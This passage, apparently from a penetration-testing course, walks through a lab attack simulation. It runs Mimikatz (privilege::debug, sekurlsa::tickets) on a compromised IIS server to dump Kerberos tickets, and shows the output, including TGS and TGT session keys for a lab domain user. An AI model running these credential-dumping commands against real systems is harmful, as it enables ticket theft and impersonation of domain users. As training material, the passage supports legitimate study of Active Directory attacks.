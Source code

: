 In our example, we logged in to appsrv01 as the _Offsec_ user as part of our attack simulation. Because of this, we must use administrative privileges to extract the TGTs supplied by users to IIS.

First, we'll launch Mimikatz from an administrative command prompt and list all tickets present with sekurlsa::tickets as shown in Listing 18.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 41754630 (00000000:027d2006)
Session           : RemoteInteractive from 4
User Name         : offsec
Domain            : PROD
Logon Server      : CDC01
Logon Time        : 4/13/2020 4:46:52 AM
SID               : S-1-5-21-3776646582-2086779273-4091361643-1111

         * Username : offsec
         * Domain   : PROD.CORP1.COM
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 4/13/2020 4:46:53 AM ; 4/13/2020 2:46:52 PM ; 4/20/2020 4:46:52 AM
           Service Name (02) : LDAP ; CDC01.prod.corp1.com ; prod.corp1.com ; @ PROD.CORP1.COM
           Target Name  (02) : LDAP ; CDC01.prod.corp1.com ; prod.corp1.com ; @ PROD.CORP1.COM
           Client Name  (01) : offsec ; @ PROD.CORP1.COM ( PROD.CORP1.COM )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             3baefc16bac50328ae442fa78c3599b820479a603544e21e0dcc6bea73f30db5
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 4/13/2020 4:46:52 AM ; 4/13/2020 2:46:52 PM ; 4/20/2020 4:46:52 AM
           Service Name (02) : krbtgt ; PROD.CORP1.COM ; @ PROD.CORP1.COM
           Target Name  (02) : krbtgt ; prod ; @ PROD.CORP1.COM
           Client Name  (01) : offsec ; @ PROD.CORP1.COM ( prod )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             d9b04d7cb8960337ecab1774c96bdb978fba55b72e42957fd8769663fd8104cf
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

> Listing 18 - No tickets from foreign users
